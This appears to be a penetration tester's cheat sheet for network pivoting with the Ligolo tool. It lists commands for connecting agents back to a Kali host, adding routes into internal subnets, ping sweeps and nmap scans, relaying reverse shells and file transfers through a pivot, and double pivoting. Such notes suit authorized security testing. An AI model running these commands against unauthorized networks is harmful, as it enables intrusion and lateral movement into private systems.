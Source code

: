 # Port Forwarding
*   Setup
    *   Kali        → `ligstart()`
    *   Pivot     → `ligolo-agent -connect [KALI_IP]:11601 -ignore-cert`
    *   Kali        → `sudo ip route add [ROUTE] dev ligolo`
    *   Ligolo   → `session` → Select Number → `start`
*   Local Forwarding
    *   Route    → `240.0.0.1/32`
    *   Access   → `240.0.0.1:[PORT]` (Universal IP - Change Session to access other pivot's local ports)
*   Dynamic Forwarding
    *   Route → `[INTRANET_CIDR]`
        *   Generic    → `192.168.0.0/16`, `172.16.0.0/12`, `10.0.0.0/8`
        *   Linux        → `ip route`
        *   Windows → `route PRINT` → Check Router + Mask
    *   Ping Sweep / Service Scanning
        *   `fping -asgq        [INTRANET_CIDR]`
        *   `sudo nmap -PE -sCV [INTRANET_IP]`
    *   Shells / File Transfers
        *   Kali                             → `listener_add --addr 0.0.0.0:30000 --to [KALI_IP]:[KALI_PORT] --tcp` 
        *   Intranet Machine   → Request/Send Shell To → `[FIRST_PIVOT_INTRANET_IP]:30000`
    *   Double Pivoting
        *   Ligolo                 → Select Pivot Session + `listener_add --addr 0.0.0.0:11601 --to [KALI_IP]:11601 --tcp`
        *   Second Pivot   → `ligolo-agent -connect [FIRST_PIVOT_INTRANET_IP]:11601 -ignore-cert`
        *   Kali                     → `ligcreate() ligolo2` + `sudo ip route add [SECOND_INTRANET_CIDR] dev ligolo2`
        *   Ligolo                → `session` → Select Number → `start --tun ligolo2`